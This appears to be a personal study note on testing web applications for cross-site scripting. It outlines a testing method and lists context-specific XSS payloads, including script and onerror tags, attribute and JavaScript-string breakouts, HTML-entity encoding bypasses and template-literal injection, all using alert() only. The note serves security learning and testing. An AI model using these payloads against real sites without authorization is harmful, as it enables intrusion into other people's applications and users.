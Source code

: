 # Advices for testing xss
* Submit random alphanumeric values. For each entry point, submit a unique random value and determine whether the value is 
reflected in the response
* Test seperatly every entry point: includes also headers, urls, etc.
* Determine the reflection context. For each location within the response where the random value is reflected, determine its context. This might be in text between HTML tags, within a tag attribute which might be quoted, within a JavaScript string, etc => check contexts: https://portswigger.net/web-security/cross-site-scripting/contexts also use to copy tags: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* Test a candidate payload: based on the context of reflection test the field with f.e. burp repeater
* If the candidate XSS payload was modified by the application, or blocked altogether, then you will need to test alternative payloads

# test contexts
## XSS between HTML tags
you need to introduce some new HTML tags designed to trigger execution of JavaScript.
Some useful ways of executing JavaScript are:
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>

* you might notice that tags are being blocked by firewall, you can interate all tags to see which are allowed.

## XSS in HTML tag attributes
XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:

"><script>alert('hi')</script> 
OR
" autofocus onfocus=alert(document.domain) x="

<a href="javascript:alert(document.domain)"> 
* \"-alert(1)

## XSS into JavaScript
* Breaking out of JS: </script><img src=1 onerror=alert(document.domain)>  or with alert(1)
* Breaking out of a JavaScript string: `'-alert(document.domain)-'` OR `';alert(document.domain)//` also works with `+alert`
* in case application is escaping `'` => might help: `\';alert(document.domain)//`

## Making use of HTML-encoding
out the HTML tags and attributes within a response, it will perform HTML-decoding of tag attribute values before they are processed any further. If the server-side application blocks or sanitizes certain characters that are needed for a successful XSS exploit, you can often bypass the input validation by HTML-encoding those characters. 

* <a href="#" onclick="... var input='controllable data here'; ..."> 
* we can use it to break out of js via encoding with: &apos;-alert(document.domain)-&apos;

## XSS in JavaScript template literals
For example, if the XSS context is as follows:

<script>
...
var input = `controllable data here`;
...
</script> 

exploit: `${alert(document.domain)}`

# types
## Reflected
is withing a payload or url
## Stored
Really stored on a page
## Dom
Within javascript